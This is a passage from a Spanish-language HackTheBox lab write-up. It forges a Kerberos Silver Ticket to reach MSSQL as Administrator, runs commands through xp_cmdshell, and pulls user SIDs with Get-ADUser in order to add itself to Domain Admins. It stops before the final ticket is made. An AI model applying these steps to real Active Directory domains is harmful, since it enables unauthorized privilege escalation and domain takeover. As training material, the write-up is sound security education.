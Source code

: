 Con este ticket, estamos haciendo creer al servicio que el usuario `mssqlsvc` es parte de `SIGNED\IT` así que exportamos el ticket para utilizarlo con kerberos:

```js
❯ export KRB5CCNAME=$PWD/mssqlsvc.ccache
```

Y accedemos con él:

```js
❯ took  7s impacket-mssqlclient.py 'SIGNED.HTB/mssqlsvc'@DC01.SIGNED.HTB -k -no-pass
Impacket v0.13.0.dev0+20250605.14806.5f78065 - Copyright Fortra, LLC and its affiliated companies 
<SNIP!>
SQL (SIGNED\Administrator  dbo@master)>
```

Esto confirma que ya tenemos mayores privilegios! (lo que nos habilita el `xp_cmdshell`).

```
SQL (SIGNED\Administrator  dbo@master)> execute('xp_cmdshell ''whoami''')
output
---------------
signed\mssqlsvc

NULL
```

Ahora, el pertenecer a un grupo privilegiado no significa que tengamos mayor acceso al sistema; __sólo representa un foothold__ pues el tirar de `xp_cmdshell` creará una shell pero con los privilegios con los que se ejecuta `mssql` (Puedes considerarlo privilegio mínimo), pero no todo está exactamente perdido.

Podemos abusar del Silver Ticket para añadirnos a nosotros mismos a `Domain Admins` Pero primero necesitamos obtener el SID de nuestro usuario utilizando `Get-ADUser`:

```js
SQL (SIGNED\Administrator  dbo@master)> execute('xp_cmdshell ''powershell.exe -c Get-ADUser -Filter *''')
output                                                                                                                                                                                                        
------------------------------------------------------------------  
<SNIP!>
DistinguishedName : CN=mssqlsvc,CN=Users,DC=SIGNED,DC=HTB
Enabled           : True
GivenName         : mssqlsvc
Name              : mssqlsvc
ObjectClass       : user
ObjectGUID        : 5cc7777b-bf7b-4cfd-b9ae-43fba5a28c2c
SamAccountName    : mssqlsvc
SID               : S-1-5-21-4088429403-1159899800-2753317549-1103
Surname           :
UserPrincipalName : mssqlsvc@SIGNED.HTB
```

Y volvemos a crear el Ticket especificando el `User ID` y el SID del grupo `Domain Admins`:
